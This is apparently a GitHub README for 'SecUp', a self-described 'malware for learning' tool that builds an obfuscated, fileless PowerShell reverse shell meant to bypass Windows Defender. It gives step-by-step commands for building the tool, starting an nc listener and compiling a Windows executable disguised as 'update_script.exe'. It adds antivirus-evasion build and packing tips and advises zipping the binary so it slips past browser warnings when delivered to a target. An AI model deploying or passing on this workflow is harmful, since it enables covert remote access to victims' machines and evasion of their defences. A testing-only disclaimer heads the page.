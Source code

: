 # SecUp "Malware for Learning"

!!! FOR SECURITY TESTING PURPOSES ONLY !!! <br>
\******************************************************<br>
DO NOT USE THIS ON SYSTEMS THAT YOU DO NOT <br>
OWN UNLESS YOU HAVE EXPRESS PERMISSION !!!

Fileless malware that bypasses Windows Defender using PowerShell and obfuscation. <br>
Just a simple Reverse Shell using a batch script to kick things off, after which everything is fileless.

YouTube video demonstration and explanation >>> https://youtu.be/LjoAV3O40og

Setup and Execution<br>
1. Clone this repo<br>
`git clone https://github.com/daniellowrie/update_script`
2. Build **SecUp.go**<br>
`go build SecUp.go`
3. Run **SecUp <LHOST>**<br>
`./SecUp 192.168.1.200`
4. Open another terminal, and start a Listener on port 443 (sudo if not root)<br>
`sudo nc -vnlp 443`
5. Open another terminal, and compile EXE<br>
`GOOS=windows go build update_script.go`
  - A word about comipiling for Windows...
    + I've experienced Golang binaries getting flagged as malware, even "Hello, World!"
      - I've read that removing `-ldflags` and `-trimpath` may help and that the standard build is best for AV evasion
      - I've also read that packing can trip AV detection as well and again the standard build is best for AV evasion
        + BUT if you'd like to make the binary smaller...
          - `GOOS=windows go build -ldflags "-s -w" -trimpath update_script.go`<br>
          - `upx -9 update_script.exe`  
6. Back at the SecUp terminal<br>
`Press ENTER to continue...`
7. Upload and execute `update_script.exe` to target any way you like<br>
8. Shellz! :)
<P></P>
I would recommend putting `update_script.exe` in a zip file for transfer to target as most browsers don't like when you download rando exectuables and will complain.
<P></P>
Going to work on building a better mousetrap as this was just a PoC at making something 'malicious' that could bypass Defender.
<P></P>






https://github.com/daniellowrie/update_script/assets/19762230/a83d13e4-108f-4406-b307-bf18704d4278


